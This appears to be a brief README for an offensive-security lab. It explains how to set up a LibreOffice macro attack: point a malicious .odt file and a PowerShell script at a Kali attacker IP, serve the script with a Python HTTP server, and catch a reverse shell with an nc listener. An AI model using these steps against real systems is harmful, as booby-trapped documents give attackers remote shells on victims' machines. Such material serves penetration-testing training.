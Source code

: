 # Instructions
#### 1 - Update .odt file with Kali Station LHOST_IP (keep port 80)
#### 2 - Update offsec.ps1 with Kali Station LHOST_IP and LPORT
#### 3 - Start python server in offsec.ps1 directory: python3 -m http.server 80
#### 4 - Start nc listener: nc -nlvp LPORT

https://bellsoftware.atlassian.net/wiki/spaces/CS/pages/11337729/LibreOffice+Macro+Code+Execution
